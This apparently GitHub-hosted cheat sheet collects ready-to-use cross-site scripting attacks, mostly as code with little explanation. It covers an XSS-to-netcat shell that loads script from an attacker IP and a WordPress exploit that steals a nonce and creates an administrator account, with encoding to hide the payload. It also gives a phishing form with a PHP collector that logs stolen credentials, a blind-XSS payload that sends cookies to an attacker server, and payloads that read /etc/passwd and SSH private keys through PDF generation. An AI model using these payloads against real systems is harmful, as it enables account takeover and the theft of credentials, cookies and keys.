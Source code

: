 ### XSS to NC Reverse Shell
```
<script>setInterval(function(){d=document;z=d.createElement("script");z.src="//your-kali-linux-ip:4444";d.body.appendChild(z)},0)</script>

while :; do printf "zemo>$ "; read c; echo $c | nc -vvlp PORTNUMBER >/dev/null; done {type in kali linu}
```

### XSS to steal cookie
>The Secure flag instructs the browser to only send the cookie over encrypted connections, such as HTTPS. This protects the cookie from being sent in clear text and captured over the network.

>The HttpOnly flag instructs the browser to deny JavaScript access to the cookie. If this flag is not set, we can use an XSS payload to steal the cookie.

### XSS to Privilege Escalation
###### Pre-requisite
database.php
```
function VST_save_record() {
	global $wpdb;
	$table_name = $wpdb->prefix . 'VST_registros';

	VST_create_table_records();

	return $wpdb->insert(
				$table_name,
				array(
					'patch' => $_SERVER["REQUEST_URI"],
					'datetime' => current_time( 'mysql' ),
					'useragent' => $_SERVER['HTTP_USER_AGENT'],
					'ip' => $_SERVER['HTTP_X_FORWARDED_FOR']
				)
			);
}
```
start.php
```
$i=count(VST_get_records($date_start, $date_finish));
foreach(VST_get_records($date_start, $date_finish) as $record) {
    echo '
        <tr class="active" >
            <td scope="row" >'.$i.'</td>
            <td scope="row" >'.date_format(date_create($record->datetime), get_option("links_updated_date_format")).'</td>
            <td scope="row" >'.$record->patch.'</td>
            <td scope="row" ><a href="https://www.geolocation.com/es?ip='.$record->ip.'#ipresult">'.$record->ip.'</a></td>
            <td>'.$record->useragent.'</td>
        </tr>';
    $i--;
}
```
###### Js to capture the word press nounce
```
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```
###### Minify the above js code
```
https://jscompress.com/
```
###### Encode the minified js code
```
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```
Launch the attack
```
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(insert the encoded js here))</script>" --proxy 127.0.0.1:8080
```
### Phishing XSS
backend
```
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>

Save as index.php
sudo php -S 0.0.0.0:80
```
frontend
```
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```
### Blind XSS
index.php
```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
sudo php -s 0.0.0.0 80
xss payload:
```
"><script>document.location='http://OUR_IP/index.php?c='+document.cookie;</script>
```
### Local File Read via XSS in Dynamiically Generated PDF
```
<p id='aa'>aa</p><script>document.getElementById('aa').innerHTML+='aa'</script>

<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open('GET','file:///etc/passwd');x.send();</script>

<script>x=new XMLHttpRequest;x.onload=function(){code="<textarea rows='100' cols='70'>"+btoa(x.responseText)+"</textarea>";document.write(code);};x.open('GET','file:///home/reader/.ssh/id_rsa', true);x.send();</script>

<script>x=new XMLHttpRequest;x.onload=function(){code="<textarea rows='100' cols='70'>"+x.responseText+"</textarea>";document.write(code);};x.open('GET','file:///home/reader/.ssh/id_rsa', true);x.send();</script>
```
